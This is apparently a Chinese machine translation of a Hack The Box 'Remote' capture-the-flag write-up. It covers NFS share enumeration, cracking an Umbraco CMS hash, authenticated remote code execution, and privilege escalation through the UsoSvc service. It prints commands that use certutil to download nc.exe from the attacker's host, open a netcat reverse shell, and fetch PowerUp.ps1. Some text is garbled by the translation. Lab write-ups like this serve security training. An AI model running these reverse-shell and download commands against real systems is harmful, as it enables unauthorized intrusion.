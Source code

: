 # HTB 远程[报道]

> 原文：<https://infosecwriteups.com/htb-remote-writeup-eb18b1e09234?source=collection_archive---------0----------------------->

## NFS 检查、CMS 利用、UsoSvc 服务权限利用

![](img/c40950c451c2319bc3daf73ae18cf2c1.png)

## 摘要

查看 nmap 结果，对于初学者来说，有太多的端口让人应接不暇。经过一些枚举和检查后，发现 NFS 共享对网络上的任何人都是公开可用的。进一步挖掘发现了凭据，通过检查网站运行的 web 应用程序版本，很容易就发现了漏洞。利用该漏洞，用户机器被 pwn。对于根，再次使用 powershell 的程序快速检查，我们发现了导致成为根的服务漏洞和滥用！

**平台:** Windows

**使用的工具:**

*   `nmap`
*   `showmount -e 10.10.10.180`显示自 2049 端口开放以来的 NFS 股票
*   `mount 10.10.10.180:/site_backups site_backups/`将可用的共享目录挂载到主机上。
*   `john`破解哈希文件。
*   `powershell.exe`及其节目
*   漏洞利用: [Umbraco CMS 7.12.4](https://www.exploit-db.com/exploits/46153)
*   `sc.exe qc UsoSvc`获取更多关于服务的信息**‘us osvc’**

**CVE(美国)** [不适用](http://Umbraco CMS 7.12.4)

## 列举

Nmap TCP 扫描输出

![](img/f75e3243ac0ff5949e994e8ed9cf2b62.png)![](img/e9e3837cc3ebcc8018901f874b5c96c5.png)

## 据点

************港口 2049 装载/NFS * * * * * * * * * * * * * * * * * * * * * * * * * * * * ***

使用命令:`showmount -e 10.10.10.180`目录 **/site_backups** 被暴露，每个人都可以挂载它。

![](img/c9c9535317d60a1a5198c7b9accff3dc.png)

通过以下步骤挂载目录:

1.  在主机上创建一个目录，我们要在其中挂载上面找到的 **site_backups** 目录。

![](img/7490f07a25cac77cf4e4ce66c3f6af47.png)

2.现在将目录挂载到我们新创建的目录中:

`mount 10.10.10.180:/site_backups site_backups/`

![](img/5152717740b2a16a18293e87ef75713a.png)![](img/ac7c936f1374501876ede4a1c1ad5a4d.png)

使用命令`grep -rl password`，我浏览了文件，并在 **App_Data/Umbraco.sdf.** 下找到了密码散列

![](img/e048c61389be3dae0c5ed4527d4df790.png)

SHA-1 哈希是*b8be 16 afba 8 c 314 ad 33d 812 f 22 a 04991 b 90 e 2 AAA*

![](img/4af87c1ca34393c40817dba26a33633a.png)

现在我们有了散列，运行`John`Ripper 来破解密码散列。

![](img/7553735e214a1e1f3cc414a43a4f6abd.png)![](img/f48ba4cc5c687308dbf2770c677d9bb8.png)

*** * * * * * * * * * * * * *端口 80 HTTP * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * ***

在使用 dirsearch.py 搜索目录内容的过程中，我偶然发现了这个名字*‘um braco’*，并找到了它的登录门户:*http://10 . 10 . 10 . 180/um braco*

![](img/e7b95e7a439458861655d6555aaa4399.png)

## 横向运动

使用找到的凭证，我登录了 umbraco CMS 帐户。

![](img/8d0141cbb7a9dfd0c264665731a87b20.png)![](img/2914e2a209d84c2cee4735b9f062376d.png)

我查阅了 7.12.4 版本的 **Umbraco 漏洞利用**，发现了 [**漏洞利用**](https://www.exploit-db.com/exploits/46153) ，这是一个经过验证的远程代码执行。

![](img/fa99c9316daa1d5124333bcf1ae8dc99.png)

## 反向外壳

使用登录凭据，我们现在可以运行该漏洞，在受害者的机器上上传 nc.exe，然后执行命令获得反向外壳。

**在运行以下命令之前，不要忘记在/etc/hosts 上设置本地 DNS。**

`python3 remoterce.py -u admin@htb.local -p baconandcheese -i [http://htb.local](http://htb.local) -c cmd.exe -a “/c certutil -urlcache -split -f [http://10.10.14.12/nc.exe](http://10.10.14.42/nc.exe) c:/windows/temp/nc.exe”`

![](img/4228753d59b5b1241ed3284d62f02f80.png)

现在启动一个监听端口，然后执行下面的命令。

`python3 remoterce.py -u admin@htb.local -p baconandcheese -i [http://htb.local](http://htb.local) -c cmd.exe -a “/c c:/windows/temp/nc.exe 10.10.14.42 7654 -e cmd.exe”`

![](img/fbe986bcc36f586fffa9cfb3605a2c08.png)![](img/b33a89de5e49c004e9c21c1294bf48ce.png)

然后我简单地运行了`powershell.exe`,虽然在这个阶段并不需要，因为 user.txt 可以很容易地访问，不需要任何进一步的努力。

![](img/361524587a0ec90edba3562f403ddb6d.png)

# HTB 远程根

## 摘要

对于此 windows 计算机，发现有漏洞的服务(UsoSvc)正在以管理员权限运行。通过用恶意代码修改其二进制路径名，使 UsoSvc 服务执行根外壳，重新启动服务，根外壳在主机上执行，这是一个简单的利用漏洞攻击。

## **权限提升**

像往常一样，首先启用`powershell.exe`，然后在受害者的机器上下载`powerup.ps1`。

1.  `mkdir temp`在 **C:\** 档行驶。
2.  `wget [http://10.10.14.12/windows/powerup.ps1](http://10.10.14.12/windows/powerup.ps1) -o powerup.ps1`
3.  `Import-Module ./powerup.ps1`然后是`Import-Module .\powerup.ps1`
4.  `Invoke-AllChecks`

![](img/df327aca468807cc65a1255ce6f46ced.png)![](img/221ec54ea55ef30e44caf7125ba7b010.png)![](img/4a1892a06d8ce19101f77245d80c1320.png)

这里受影响的服务是 **UsoSvc** 。

使用以下命令检查 UsoSvc 服务的详细信息:

`sc.exe qc UsoSvc`

请注意，该服务是作为特权用户运行的。滥用这个漏洞可以让我们得到根外壳。

![](img/e0b041a0330ad982ee77f21376241b33.png)

**第一步。**修改二进制路径注入恶意代码运行 netcat，在主机上执行反向 shell。

![](img/53fbb45ca623f8c0c9041aeb016a4e20.png)![](img/51a8c66e6a9e93b9e0515c97ac39c013.png)

**第二步。**再次检查 UsoSvc 细节，查看二进制路径名是否已经更改

![](img/acb866290e4c7255d170254446c533ae.png)

**第三步。**现在启动监听器端口。

**第四步。**停止 usosvc 服务，然后重新启动。这将允许在 10.10.14.14:3432 执行 `cmd.exe`

![](img/c454d23a10a67d4d6364486d44724fc0.png)![](img/f97be68849479adbc4e40eddf658506b.png)![](img/0f40baa7d5c9344bc50a9e3f896ea822.png)

**成功！！！**

![](img/abcec6f0507e70ca268a642662f40c7d.png)